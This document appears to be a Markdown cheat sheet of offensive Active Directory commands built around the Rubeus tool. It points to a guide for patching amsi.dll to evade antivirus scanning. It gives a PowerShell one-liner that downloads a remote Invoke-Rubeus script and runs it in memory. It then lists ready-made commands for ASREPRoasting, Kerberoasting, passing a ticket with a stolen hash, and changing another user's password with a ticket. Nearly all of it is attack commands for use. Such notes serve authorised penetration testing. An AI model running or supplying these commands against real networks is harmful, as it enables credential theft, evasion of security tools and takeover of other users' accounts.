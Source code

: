 # References
- [Rubeus](https://github.com/GhostPack/Rubeus)

# Add to PowerShell
> **Warning**
> [Patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/okazymyrov/piki/master/Invoke-Rubeus.ps1')
```

# Commands

## ASREPRoast with specified credentials
```powershell
Invoke-Rubeus 'asreproast /outfile:asreproast.<domain>.txt /format:hashcat /creduser:<domain>.local\<user> /credpassword:<pass> /dc:<dc> /domain:<domain>'
```

## Kerberoast
### Kerberoast for the current domain
```powershell
Invoke-Rubeus 'kerberoast /outfile:kerberoast.<domain>.txt /format:hashcat'
```

### Kerberoast for a trusted domain
```powershell
Invoke-Rubeus 'kerberoast /outfile:kerberoast.<domain>.txt /format:hashcat /domain:<trusted domain> /dc:<trusted DC>'
```

### Kerberoast from non-joined domain machine
```powershell
Invoke-Rubeus 'kerberoast /outfile:kerberoast.<domain>.txt /format:hashcat /creduser:<domain.local>\<user> /credpassword:<pass> /dc:<dc> /domain:<domain>'
```

### List statistics about found Kerberoastable accounts without actually sending ticket requests
```powershell
Invoke-Rubeus 'kerberoast /stats /creduser:<domain>.local\<user> /credpassword:<pass> /dc:<dc> /domain:<domain>'
```

## Reqest and pass a TGT ticket to the current session
```powershell
Invoke-Rubeus 'asktgt /user:<user> /rc4:<hash> /domain:<domain> /ptt'
```

## Change password for another user using kerberos ticket
```powershell
Invoke-Rubeus 'asktgt /user:<user_can_change_passwords> /changepw /rc4:<hash> /domain:<domain> /outfile:<user_can_change_passwords>.ticket'
Invoke-Rubeus 'changepw /ticket:<user_can_change_passwords>.ticket /new:<new_password> /targetuser:<domain.local>\<user_to_change_password> /dc:<dc>.<domain>.local'
```
